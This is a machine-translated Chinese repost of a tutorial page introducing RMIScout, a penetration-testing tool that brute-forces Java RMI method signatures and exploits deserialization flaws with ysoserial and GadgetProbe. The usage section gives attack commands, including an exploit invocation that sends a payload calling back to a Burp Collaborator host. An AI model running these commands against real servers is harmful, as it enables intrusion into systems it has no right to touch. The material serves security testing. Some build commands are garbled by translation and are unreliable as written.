

# RMIScout:针对暴露的 Java RMI 接口的暴力攻击

> 原文：<https://kalilinuxtutorials.com/rmiscout/>

[](https://1.bp.blogspot.com/-AiuDSPkEFTw/XvOrE839z1I/AAAAAAAAGtI/gUVrQ8xjr5Y1s4Yah_98tTp4BXToJNpvQCLcBGAsYHQ/s1600/RMIScout%25281%2529.png)

RMIScout 对暴露的 Java RMI 接口执行单词列表和暴力攻击，以在不调用的情况下安全地猜测方法签名。

在错误配置的服务器上，任何已知的使用非原始类型的 RMI 签名(例如，`**java.lang.String**`)都可以通过用序列化的有效负载替换对象来利用。

这是一种相当常见的错误配置(例如，VMWare VSP here Data Protection+v realize Operations Manager、Pivotal tc Server 和 Gemfire、Apache Karaf + Cassandra)，正如在 [An Trinh 的 2019 Blackhat EU talk](https://i.blackhat.com/eu-19/Wednesday/eu-19-An-Far-Sides-Of-Java-Remote-Protocols.pdf) 中所强调的。

RMIScout 与 [ysoserial](https://github.com/frohoff/ysoserial/) 和 [GadgetProbe](https://github.com/bishopfox/gadgetprobe) 集成，对错误配置进程级序列化过滤器的服务进行反序列化攻击( [JEP 290](https://openjdk.java.net/jeps/290) )。



**动机**

我需要一个工具来完成以下任务:

1.  提供单词列表和基于文本的强制策略，而不是强制 64 位方法哈希。
2.  识别 RMI 方法而不调用它们。
3.  提供一种简单的方法来利用已知的不安全 RMI 参数解组问题，并与 ysoserial 或实现 **`ysoserial.payloads.ObjectPayload`的有效负载集成。**
4.  集成 GadgetProbe 来识别远程类，以帮助识别相关软件和构造小工具链。

为了开始你的搜索，包含的`**lists/prototypes.txt**`单词表是从 GitHub 的 OSS 项目中发现的 15，000 个 RMI 原型中删除重复的单词表。随时提交一份公关，包括更多🙂

它是如何工作的？

为了识别但不执行 RMI 函数，RMIScout 使用低级 RMI 网络函数和动态类生成来发送故意不匹配类型的 RMI 调用，以触发远程异常。所有参数都替换为动态生成的可序列化类，该类具有 255 个字符的名称，假定在远程类路径中不存在。例如:

远程接口:

**作废登录(字符串用户，字符串密码)**

RMIScout 将调用:

**登录((字符串)新 QQkzkn3)..255 个字符..()，(String)新 Qkzkn3..255 个字符..())**

如果该类存在，这将导致由`ClassNotFoundException`或参数解组错误引起的远程`java.rmi.UnmarshalException`，而不会调用底层方法。

点击阅读[完整的技术文章。](https://know.bishopfox.com/research/rmiscout)

**用途**

```
# Perform wordlist-attack against remote RMI service using wordlist of function prototypes
./rmiscout.sh wordlist -i lists/prototypes.txt <host> <port>

# Bruteforce using method wordlist and other options
./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 <host> <port>

# Swap object-derived types with the specified ysoserial payload and payload parameter
./rmiscout.sh exploit -s 'void vulnSignature(java.lang.String a, int b)' -p ysoserial.payloads.URLDNS -c "http://examplesubdomain.burpcollaborator.net" -n registryName <host> <port>

# Use GadgetProbe and a known signature to bruteforce classes on the remote classpath
./rmiscout.sh probe -s 'void vulnSignature(java.lang.String a, int b)' -i ../GadgetProbe/wordlists/maven_popular.list -d "examplesubdomain.burpcollaborator.net" -n registryName <host> <port> 
```

**建筑&运行**

使用附带的`**rmiscout.sh**`脚本自动构建项目，并作为`**java -jar**`语法的方便包装:

**。/RMI scout . sh word list-I lists/prototypes . txt<主机> <端口>**

或者，手动构建项目并使用传统的`java -jar`语法:

**#手动建立罐子**
。/grad Lew shadow jar

Java-jar build/libs/RMI scout-1.01-SNAPSHOT-all . jar wordlist-I lists/prototypes . txt<host><port>

**尝试一下**

运行演示 RMI 服务器。试用收录的 **`demo/wordlist.txt`。**

**cd 演示
。/start.sh**

[**Download**](https://github.com/BishopFox/rmiscout)